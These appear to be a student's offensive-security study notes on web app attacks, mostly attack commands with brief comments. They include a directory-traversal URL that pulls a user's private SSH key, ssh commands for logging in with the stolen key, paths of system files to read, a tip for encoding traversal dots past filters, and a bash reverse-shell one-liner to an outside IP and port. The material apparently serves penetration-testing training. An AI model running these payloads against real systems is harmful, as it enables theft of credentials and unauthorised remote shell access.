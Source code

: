 ## Common Web App Attacks

### Directory Traversal

1. check for directory traversal
2. try to find private ssh keys
3. connect via ssh to shell

`/var/www/html` is typical linux web dir root

should check for ssh keys
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

setting up ssh after stealing key
-i use this file
```
chmod 400 $dt_key
ssh -i dt_key -p 2222 offsec@mountaindesserts.com
```

linx -> /etc/passwd
windows -> C:\Windows\System32\drivers\etc\hosts
try both \ and / with file paths on windows

../ might be filtered by a firewall -> so we may want to encode the dots

### LFI

bash tcp reverse shell one liner

```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```

risk with the above is that it could be using the bourne shell rather than bash
wrap it in bash -c to ensure no syntax errors

```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
```
Outside PHP, we can also leverage LFI and RFI vulnerabilities in other frameworks or server-side scripting languages including Perl,11 Active Server Pages Extended,12 Active Server Pages,13 and Java Server Pages
```



